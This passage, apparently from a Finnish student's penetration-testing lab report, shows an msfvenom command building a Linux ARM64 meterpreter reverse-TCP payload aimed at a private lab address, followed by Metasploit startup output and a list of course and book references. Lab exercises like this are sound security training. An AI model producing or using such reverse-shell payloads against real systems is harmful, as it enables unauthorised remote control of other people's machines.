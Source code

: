 Ei toiminut (mitään ei tapahtunut msfconsolessa). Tein muutoksen: 

```
msfvenom -p linux/aarch64/meterpreter/reverse_tcp LHOST=10.211.55.13 LPORT=4444 -f elf > reversetcp.elf
```

Tällä saatiin toivottu tulos:

```bash
┌──(parallels㉿kali-linux-2024-2)-[~/Documents/Mvenom]
└─$ msfconsole                                                                                             
Metasploit tip: Enable verbose logging with set VERBOSE true
                                                  
                                   ___          ____
                               ,-""   `.      < HONK >
                             ,'  _   e )`-._ /  ----                                                                                                        
                            /  ,' `-._<.===-'                                                                                                               
                           /  /                                                                                                                             
                          /  ;                                                                                                                              
              _          /   ;                                                                                                                              
 (`._    _.-"" ""--..__,'    |                                                                                                                              
 <_  `-""                     \                                                                                                                             
  <`-                          :                                                                                                                            
   (__   <__.                  ;                                                                                                                            
     `-.   '-.__.      _.'    /                                                                                                                             
        \      `-.__,-'    _,'                                                                                                                              
         `._    ,    /__,-'                                                                                                                                 
            ""._\__,'< <____                                                                                                                                
                 | |  `----.`.                                                                                                                              
                 | |        \ `.                                                                                                                            
                 ; |___      \-``                                                                                                                           
                 \   --<                                                                                                                                    
                  `.`.<                                                                                                                                     
                    `-'                                                                                                                                     
                                                                                                                                                            
                                                                                                                                                            

       =[ metasploit v6.4.56-dev                          ]
+ -- --=[ 2505 exploits - 1291 auxiliary - 431 post       ]
+ -- --=[ 1610 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

```

[^1]: Tero Karvinen. Tunkeutumistestaus: https://terokarvinen.com/tunkeutumistestaus/
[^2]: Tero Karvinen. Cracking Passwords with Hashcat: https://terokarvinen.com/2022/cracking-passwords-with-hashcat/
[^3]: man tar
[^4]: man hashid
[^5]: hashcat. Example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
[^6]: Tero Karvinen. Crack File Password With John: https://terokarvinen.com/2023/crack-file-password-with-john/
[^7]: Stack Exchange. Best way to encrypt a file with just password (no keypairs) that is easily usable/decryptable on both Linux and macOS?: https://unix.stackexchange.com/questions/749766/best-way-to-encrypt-a-file-with-just-password-no-keypairs-that-is-easily-usabl
[^8]: man gpg
[^9]: Santos et al 2017: Security Penetration Testing - The Art of Hacking Series LiveLessons: https://www.oreilly.com/videos/security-penetration-testing/9780134833989/9780134833989-sptt_00_06_00_00/
[^10]: Kennedy et al 2025: Metasploit: File-Format Exploits: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter9.xhtml#toc-link_128
[^11]: Singh 2025: The Ultimate Kali Linux Book: Understanding Active Directory: https://learning.oreilly.com/library/view/the-ultimate-kali/9781835085806/Text/Chapter_12.xhtml#_idParaDest-272
[^12]: Kennedy et al 2025: Metasploit: https://learning.oreilly.com/library/view/metasploit-2nd-edition/9798341620032/xhtml/chapter6.xhtml#toc-link_85
[^13]: Jobin J. How to Set Up a File Download Server on Ubuntu with Apache: https://medium.com/@techworldthink/how-to-set-up-a-file-download-server-on-ubuntu-with-apache-c35bc03eb218
[^14]: pentestTV. MSFvenom Demystified: Unlocking the Power of Exploit Shellcode: https://www.youtube.com/watch?v=ROBLGTEqUBQ
[^15]: Occupytheweb. Getting Started Becoming a Master Hacker. https://www.amazon.com/Getting-Started-Becoming-Master-Hacker/dp/1711729299
[^16]: man msfvenom